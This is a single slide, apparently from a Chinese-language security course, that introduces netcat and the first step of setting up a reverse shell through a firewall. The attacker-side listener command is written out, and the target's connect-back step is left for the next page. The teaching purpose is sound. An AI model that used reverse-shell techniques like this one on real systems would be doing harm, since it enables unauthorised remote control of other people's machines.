

# 資安常用指令
nc(netcat)命令工具:
Reverse shell建立(中間有防火牆):

建立步驟
攻擊者監聽port 1234
[attack]# nc –l –v –p 1234
(下頁)

攻擊者
發送攻擊指令

目標
shell
連線某個TCP PORT
284